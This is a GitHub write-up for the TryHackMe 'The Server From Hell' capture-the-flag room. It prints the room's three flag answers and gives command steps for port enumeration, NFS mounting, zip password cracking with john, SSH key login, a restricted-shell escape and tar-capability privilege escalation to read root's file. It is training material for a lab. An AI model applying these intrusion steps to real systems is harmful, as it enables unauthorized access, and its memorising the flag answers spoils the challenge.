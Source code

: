 # <div align="center">[The Server From Hell](https://tryhackme.com/r/room/theserverfromhell)</div>
<div align="center">Face a server that feels as if it was configured and deployed by Satan himself. Can you escalate to root?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/3a3b65e4-3de2-44be-aa41-86db563c6f0f" height="200"></img>
</div>

## Task 1. Hacking the server
Start at port 1337 and enumerate your way.
Good luck.
### flag.txt
```
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```
### User.txt
```
thm{sh3ll_3c4p3_15_v3ry_1337}
```
### Root.txt
```
thm{w0w_n1c3_3sc4l4t10n}
```
## Let start 
* For flag
```
nc <IP> 1337
for i in {1..100};do nc <IP> $i;echo "";done
nc <IP> 12345
nmap -sC -sV -p111,2049 <IP>
mkdir nfs  
sudo mount -t nfs <ip>: nfs           
tree nfs
zipinfo backup.zip
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
cat flag.txt
```
* For User flag
```
cat hint.txt
nmap -sV -p 2500-4500 <IP> | grep -i ssh
chmod 600 id_rsa
ssh -i id_rsa hades@<IP> -p 3333
exec '/bin/bash'
cat user.txt
```
* For Root flag
```
getcap -r / 2>/dev/null
tar -cvf flag.tar /root/root.txt
tar xf flag.tar 
cat root/root.txt
```
